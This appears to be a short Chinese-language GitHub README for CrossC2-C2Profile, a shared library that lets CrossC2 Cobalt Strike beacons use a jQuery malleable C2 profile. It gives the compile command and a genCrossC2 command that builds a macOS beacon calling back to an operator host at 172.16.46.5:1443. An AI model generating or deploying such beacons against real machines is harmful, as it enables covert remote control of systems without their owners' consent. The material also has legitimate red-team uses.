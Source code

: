 # CrossC2-C2Profile

# 介绍

CrossC2通信协议API实现，可兼容使用C2Profile`https://github.com/threatexpress/malleable-c2/blob/master/jquery-c2.4.0.profile`。

# 使用

gcc编译使用的环境要靠近执行beacon的机器环境


```bash
gcc c2profile.c -fPIC -shared -o CrossC2-C2Profile.so
```

命令具体参考`https://gloxec.github.io/CrossC2/zh_cn/usage/genCross.html`

```bash
./genCrossC2.MacOS 172.16.46.5 1443 cobaltstrike.beacon_keys CrossC2-C2Profile.so MacOS x64 ./macos
```

可以将profile中的其他编码去掉，只保留base64，并在c2profile.c中只保留元数据的切割部分，也可以正常使用。

# 效果

![image-20210706115833758](images/README/image-20210706115833758.png)

![image-20210706114424430](images/README/image-20210706114424430.png)
